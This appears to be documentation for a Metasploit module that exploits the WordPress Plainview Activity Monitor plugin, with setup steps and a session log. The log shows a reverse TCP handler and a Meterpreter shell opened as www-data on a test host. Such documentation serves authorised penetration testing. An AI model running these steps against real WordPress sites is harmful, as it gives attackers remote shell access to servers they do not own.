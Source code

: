 ## Description

  This module uses administrative functionality available in WordPress
  when the Plainview Activity Monitor plugin is installed to
  gain a shell with web server user permissions.

## Vulnerable Software

  This module has been tested successfully on WordPress 4.6
  with Plainview Activity Monitor version 20161228 installed.

  Software:

  * https://wordpress.org/plugins/plainview-activity-monitor/
  * https://wordpress.org/download/releases/

## Verification Steps

  1. Start `msfconsole`
  2. Do: `use exploit/unix/webapp/wp_plainview_activity_monitor_rce`
  3. Do: `set rhosts <IP or domain_name>`
  4. Do: `set username <username>`
  5. Do: `set password <password>`
  6. Do: `set vhost <domain_name>`
  7. Do: `run`
  8. You should get a new session

## Options

  **TARGETURI**

  The base path to WordPress (default: `/`)

  **USERNAME**

  The username for WordPress

  **PASSWORD**

  The password for WordPress


## Scenarios

 ```
  msf > use exploit/unix/webapp/wp_plainview_activity_monitor_rce 
  msf exploit(unix/webapp/wp_plainview_activity_monitor_rce) > set rhosts wordpress.test.local
  rhosts => wordpress.test.local
  msf exploit(unix/webapp/wp_plainview_activity_monitor_rce) > set username admin
  username => admin
  msf exploit(unix/webapp/wp_plainview_activity_monitor_rce) > set password 123456
  password => 123456
  msf exploit(unix/webapp/wp_plainview_activity_monitor_rce) > set vhost wordpress.test.local
  vhost => wordpress.test.local
  msf exploit(unix/webapp/wp_plainview_activity_monitor_rce) > show targets

  Exploit targets:

     Id  Name
     --  ----
     0   WordPress


  msf exploit(unix/webapp/wp_plainview_activity_monitor_rce) > exploit

  [*] Started reverse TCP handler on 10.0.0.2:4444 
  [*] Trying to login...
  [+] Login Successful
  [*] Sending stage (38288 bytes) to 10.0.0.3
  [*] Meterpreter session 1 opened (10.0.0.2:4444 -> 10.0.0.3:51990) at 2019-11-10 08:24:11 +0100

  meterpreter > getuid
  Server username: www-data (33)
  meterpreter > 
 ```
